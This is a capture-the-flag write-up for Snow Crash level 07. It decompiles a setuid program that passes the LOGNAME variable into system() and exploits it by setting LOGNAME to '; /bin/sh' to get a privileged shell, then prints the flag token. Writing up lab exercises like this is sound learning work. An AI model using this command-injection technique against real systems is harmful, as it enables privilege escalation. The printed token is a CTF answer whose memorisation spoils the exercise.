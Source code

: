# Snow Crash - Level 07

## Finding the Executable

Listing the directory contents with `ls -la`, we discover an executable named `level07`. Inspecting it with `cat` reveals compiled C code, so we use a decompiler to analyze its functionality.

## Understanding the Vulnerability

The decompiled code shows that the program retrieves the `LOGNAME` environment variable, passes it to `/bin/echo`, and executes the resulting command using `system()`. Additionally, it uses `setresuid()` to execute with the file owner's privileges (`flag07`).

### Decompiled Code:

```c
int main()
{
    unsigned int v0;  // [sp-0x1c]
    void* v1;  // [sp-0x10]
    unsigned int v2;  // [sp-0xc]
    unsigned int v3;  // [sp-0x8]

    v2 = getegid();
    v3 = geteuid();
    v0 = v2;
    setresgid(v2, v2);
    v0 = v3;
    setresuid(v3, v3);
    v1 = 0;
    v0 = getenv("LOGNAME");
    asprintf(&v1, "/bin/echo %s ");
    return system(v1);
}
```

## Exploiting the Vulnerability

Since the program executes `system()`, we can manipulate `LOGNAME` to inject a command and gain a shell as `flag07`.

### Steps:

1. Set `LOGNAME` to inject `/bin/sh`:

   ```bash
   export LOGNAME="; /bin/sh"
   ```

2. Execute the vulnerable program:

   ```bash
   ./level07
   ```

3. Run `getflag` inside the new shell:

   ```bash
   $ getflag
   Check flag. Here is your token : fiumuikeil55xe9cu4dood66h
   ```

This successfully retrieves the flag by executing commands with `flag07`'s privileges.

